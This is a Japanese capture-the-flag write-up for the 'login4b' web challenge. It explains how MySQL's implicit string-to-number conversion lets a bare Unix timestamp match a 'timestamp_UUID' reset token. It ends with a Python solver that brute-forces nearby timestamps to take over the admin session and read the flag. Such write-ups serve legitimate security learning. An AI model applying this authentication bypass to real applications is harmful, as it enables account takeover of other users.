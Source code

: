 # login4b

420 Points / 102 Solves

<!-- @import "[TOC]" {cmd="toc" depthFrom=2 depthTo=3 orderedList=false} -->

<!-- code_chunk_output -->

- [調査](#調査)
  - [MySQL暗黙的型変換](#mysql暗黙的型変換)
- [Solver](#solver)

<!-- /code_chunk_output -->

## 調査

- URLにアクセスすると以下の機能を確認できる
  - ログイン（Login）
  - ログアウト（Logout）
  - 新規登録（Register）
  - パスワードリセット（Password Reset）
  - リセットトークン生成（Request Reset Token）
  - フラグ生成（Get Flag）

- FLAGは`admin`としてログインしている状態でフラグ生成することで取得できる

- ソースコード内コメントからパスワードリセット機能が未完成であることがわかる

```ts
app.post("/api/reset-password", async (req: Request, res: Response) => {
  try {
    const { username, token, newPassword } = req.body;
    if (!username || !token || !newPassword) {
      return res
        .status(400)
        .json({ error: "Username, token, and new password are required" });
    }

    const isValid = await db.validateResetTokenByUsername(username, token);

    if (!isValid) {
      return res.status(400).json({ error: "Invalid token" });
    }

    // TODO: implement
    // await db.updatePasswordByUsername(username, newPassword);

    // TODO: remove this
    const user = await db.findUser(username);
    if (!user) {
      return res.status(401).json({ error: "Invalid username" });
    }
    req.session.userId = user.userid;
    req.session.username = user.username;

    res.json({
      success: true,
      message: `The function to update the password is not implemented, so I will set you the ${user.username}'s session`,
    });
  } catch (error) {
    console.error("Password reset error:", error);
    res.status(500).json({ error: "Reset failed" });
  }
});
```

- 実装途中のためパスワードリセットする代わりに、該当ユーザとして有効なセッションが発行されている

```ts
const user = await db.findUser(username);
if (!user) {
  return res.status(401).json({ error: "Invalid username" });
}
req.session.userId = user.userid;
req.session.username = user.username;
```

- パスワードリセット機能を使うためにはリセット用のトークンを生成する必要がある

```ts
async validateResetTokenByUsername(
  username: string,
  token: string
): Promise<boolean> {
  await this.initialized;
  console.log("token: " + token);
  const [rows] = (await this.pool.execute(
    "SELECT COUNT(*) as count FROM users WHERE username = ? AND reset_token = ?",
    [username, token]
  )) as [any[], mysql.FieldPacket[]];
  return rows[0].count > 0;
}
```

- 逆に言うと、リセット用のトークンがわかれば他のユーザとしてなりすませる

- トークン生成にはUUIDv4が使われており、推測はできないはず

````ts
async generateResetToken(userid: number): Promise<string> {
  await this.initialized;
  const timestamp = Math.floor(Date.now() / 1000);
  const token = `${timestamp}_${uuidv4()}`;

  await this.pool.execute(
    "UPDATE users SET reset_token = ? WHERE userid = ?",
    [token, userid]
  );
  return token;
}
````

- トークンの形式は`<タイムスタンプ(秒)>_<UUIDv4>`

### MySQL暗黙的型変換

- データベースとしてMySQLが使われており、型が違う値を比較する際に（例:文字列と数値）の比較をする際に暗黙の型変換が行われる

```sql
mysql> select '1753508906_13b2ff97-22ff-4c53-ac28-a6d58b9787c0' + 0;
+-------------------------------------------------------+
| '1753508906_13b2ff97-22ff-4c53-ac28-a6d58b9787c0' + 0 |
+-------------------------------------------------------+
|                                            1753508906 |
+-------------------------------------------------------+
1 row in set, 1 warning (0.00 sec)
```

```sql
mysql> select '1753508906_13b2ff97-22ff-4c53-ac28-a6d58b9787c0' = 1753508906;
+----------------------------------------------------------------+
| '1753508906_13b2ff97-22ff-4c53-ac28-a6d58b9787c0' = 1753508906 |
+----------------------------------------------------------------+
|                                                              1 |
+----------------------------------------------------------------+
1 row in set, 1 warning (0.00 sec)
```

- この挙動を利用することで、UUIDv4の値がわからなくてもタイムスタンプ（現在時刻秒）だけでパスワードリセット機能が使える

## Solver

```py
import requests
import json
import time

url = 'http://login4b.challenges.beginners.seccon.jp'

session = requests.Session()
data = {'username': 'admin'}
res = session.post(
    f'{url}/api/reset-request',
    data=json.dumps(data),
    headers={"Content-Type": "application/json"}
)
# print(res.text)

timestamp = int(time.time())
for i in range(-5, 6, 1): # サーバとの時差を考慮して±5秒
    # print(timestamp+i)
    data = {'username': 'admin', 'token': timestamp+i, 'newPassword': 'something'}
    res = session.post(
        f'{url}/api/reset-password',
        data=json.dumps(data),
        headers={"Content-Type": "application/json"}
    )
    if 'success' in res.json():
        break

res = session.get(f'{url}/api/get_flag')
data = res.json()
print(data['flag'])
```
